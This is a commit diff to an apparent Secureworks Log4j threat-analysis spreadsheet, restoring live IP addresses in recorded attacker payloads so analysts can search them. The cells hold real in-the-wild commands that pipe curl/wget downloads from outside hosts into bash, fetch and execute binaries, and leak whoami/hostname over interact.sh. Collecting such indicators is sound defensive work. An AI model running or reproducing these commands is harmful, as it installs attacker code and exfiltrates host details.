

Before and after one commit to secureworks/log4j-analysis, a TSV file: taegis-log4j-ip-analysis.tsv, drawn as a sheet; only a part is shown; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
re-fanged IOCs to support search

```diff
--- a/taegis-log4j-ip-analysis.tsv
+++ b/taegis-log4j-ip-analysis.tsv
-C2: (curl -s 45.155[.]205.233:5874/<redacted victim ip>:80||wget -q -O- 45[.]155.205.233:5874/<redacted victim ip>:80)|bash
+C2: (curl -s 45.155.205.233:5874/<redacted victim ip>:80||wget -q -O- 45.155.205.233:5874/<redacted victim ip>:80)|bash
-C3: (curl -s 195[.]54.160.149:5874/<redacted victim ip>:80||wget -q -O- 195[.]54.160.149:5874/<redacted victim ip>:80)|bash
+C3: (curl -s 195.54.160.149:5874/<redacted victim ip>:80||wget -q -O- 195.54.160.149:5874/<redacted victim ip>:80)|bash
-C4: wget http[:]//152[.]67.63.150/py; curl -O http[:]//152[.]67.63.150/py; chmod 777…
+C4: wget http://152.67.63.150/py; curl -O http://152.67.63.150/py; chmod 777…
-C5: wget http[:]//62[.]210.130.250/lh.sh;chmod +x lh.sh;./lh.sh
+C5: wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh
-C6: …/; wget http[:]//155[.]94.154.170/aaa;curl -O http[:]//155[.]94.154.170/aaa;chmod 777 aaa;./aaa
+C6: …/; wget http://155.94.154.170/aaa;curl -O http://155.94.154.170/aaa;chmod 777 aaa;./aaa
-C7: …victim ip>.$(whoami).$(hostname).<redacted token>.interact[.]sh
+C7: …victim ip>.$(whoami).$(hostname).<redacted token>.interact.sh
-C8: wget http://152[.]67.63.150/py; curl -O http://152[.]67.63.150/py; chmod 777…
+C8: wget http://152.67.63.150/py; curl -O http://152.67.63.150/py; chmod 777…
```
Also changed, not shown: 35 edited cells elsewhere in this file.
